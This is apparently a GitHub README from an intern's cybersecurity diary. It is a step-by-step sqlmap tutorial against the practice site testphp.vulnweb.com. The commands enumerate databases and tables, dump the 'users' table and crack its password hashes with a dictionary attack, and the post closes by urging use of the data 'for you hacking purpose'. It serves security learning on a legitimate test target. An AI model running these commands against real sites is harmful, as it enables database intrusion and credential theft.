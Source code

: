 # Cyber Security Internship Diary

Welcome back to my Cyber Security Internship Diary! This repository documents my daily learnings and experiences during my internship in the field of Cyber Security. Here, I'll share insights, concepts, and practices that I encounter throughout this journey.

# Day-11: SQLMAP on the testable website.

## Overview
Today, Open-source tool automating SQL injection detection and exploitation, aiding in database security assessments.

### The website which is used is [testphp.vulnweb](http://testphp.vulnweb.com/)
In this we have used the automating SQL injection which enter's a webpages database and then throw back all the data which is in the database.

### Steps & proccedure :
#### 1. Installing the sqlmap into your kali linux. 
```
 sudo apt-get update
 sudo apt-get upgrade -y
 sudo apt-get install sqlmap
```
#### 2. Understanding the sqlmap workinng 

``` man sqlmap ```

![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-11/man%20sql.png?raw=true)

#### 3. performing attack 
```
sqlmap -u <website link> http://testphp.vulnweb.com/listproducts.php?cat=1  -dbs
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-11/start.png)

#### 4. Getting the Database deatils 
After getting the deatils of the Database managament (DBMS) of the database and with that we will also get the tables and coloumns of the database now we target the 
(DBMS) and in that the tables we target so, for that the command is 
```
 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-11/get%20table.png)

#### 5. Dump the data 
After getting the deatils of the tables which the database has then we procced and download all the Data which the 'user' contain. 
```
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-11/dump%20all.png)

 - The important condition statement which are asked while executing
 ```
writing hashes to a temporary file '/tmp/sqlmapkis89bs647009/sqlmaphashes-aaiq4oy_.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
```

![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-11/-y%20perfroming.png)

- The dictionary attack use the general default given by the sqlmap
```
using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
```

![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-11/-y%20dictorinary.png)

- This step is important regarding the time taking while cracking the hash i would pefer to do it as it crack it precisely without this also it works fine
``` 
using default dictionary
do you want to use common password suffixes? (slow!) [y/N] Y
``` 
- future just agree and Y

#### After that the data is saved as the .csv file and by default all the tables is dumped and stored and the path is given at the last where it stored 
``` /home/kali/.local/share/sqlmap/output/testphp.vulnweb.com ```

![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-11/final%20path.png)

#### Now just cd into the directory and cat the files and use the data for you hacking purpose. 

### Conclusion 
SQLMAP is a automated sql injection tool which is used to get into database and it is very powerfull tool which also gives us a full access of the database. 

##  USE WITH CAUTION!. 

### See you tomorrow! 
